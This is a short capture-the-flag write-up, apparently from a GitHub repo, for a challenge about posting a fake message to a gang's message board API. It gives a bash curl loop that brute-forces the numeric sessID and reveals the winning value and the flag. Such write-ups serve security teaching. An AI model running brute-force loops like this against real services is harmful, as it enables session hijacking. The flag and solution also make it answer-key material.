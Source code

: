 # Benjamin The Brute - L11 C06

Agent 707, one of the gang, Benjamin Goldleaf, was yesterday overheard by our inside undercover agent talking about posting notices on a secret message board that the gang use to communicate meeting times.

With a bit of detective work we've managed to find the message board and get Bens user details. We want to post a fake message using the API to try and draw one of the more senior gang members out, but we can't get it to work. See if you can.

**Tip:** Successfully post a notice on the board to get the flag.

💡 **Hint:** There seems to be a required parameter - `sessID` - requiring a number. There aren't too many users,
   maybe try brute forcing this value. You could do that in Python or you could write a BASH script using CURL.

## Step by Step

- Open a Linux terminal
- Run `for i in {1..100}; do curl -X POST -d "userID=24&sessID=$i" https://bondogge.com/createPost; echo ""; done`
`
- This will eventually reach to correct sessID of `78` and spit out the flag

`flag: br1ti5h.bulld0gZ`
